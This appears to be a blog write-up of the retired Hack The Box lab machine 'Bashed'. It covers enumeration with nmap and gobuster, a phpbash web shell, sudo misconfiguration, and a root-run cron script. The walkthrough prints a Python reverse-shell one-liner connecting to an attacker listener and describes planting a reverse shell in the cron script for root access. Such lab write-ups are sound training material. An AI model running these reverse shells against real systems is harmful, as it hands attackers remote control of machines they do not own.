 ```yaml
---
layout: post
title: Bashed
description: <p class="message">Bashed is an easy retired linux box on HTB. This machine tested your enumeration skills in order to first find the /dev terminal and then be able to exploit 
  the vulnerable sudo permissions and then a cron job running on the machine.</p>
---
```


<p class="message">
  Bashed is an easy retired linux box on HTB. This machine tested your enumeration skills in order to first find the /dev terminal and then be able to exploit 
  the vulnerable sudo permissions and then a cron job running on the machine.
</p>

As with all test's I start with my initial nmap scans.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/scans.png">

Port 80 is the only port open so the first thing I like to do is run a gobuster scan to see what web directories it can quickly find.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/gobuster.png">

Here there are several interesting directories but the one I'm interested in is /dev.\
Navigating to the page I find a php page running a bash terminal. Poking around I find two users on this machine, arrexel and scriptmanager. But the more interesting find is after running;
<p class="message">$ sudo -l</p>
It seems the user www-data can run all commands as scriptmanager. This seems like a good road to go down since a user named scriptmanager I'd expect to have some control over running scripts which could lead to reverse shells.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/terminal.png">
<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/sudo_l.png">

But to start I tried switching to the user in the phpbash terminal however phpbash seems to be lacking alot of functionality. Therefore I used a python command to send a shell back to my listener in order to get a full bash shell as www-data. I use [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for all my reverse shell needs. 
<p class="message">python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.41",1234));os.dup2(s.fileno(),0);</p>

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/reverse_shell_wwwdata.png">

Now that we have a fully functional bash shell I sudo into the script manager user.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/scriptmanager.png">

From here I move into the /scripts directory and discover two files, test.py and test.txt\
Looking at the contents of both it seems to be running a script writing "testing 123!" to the text file.\
Now this was just a hunch but I figured it was likely the command was being run as root. To test this I append the python reverse shell script to the test.py and set up a netcat listener.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/script.png">

As I suspected, I few minutes later I recieved a root shell back from the machine.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/reverse_shell_root.png">
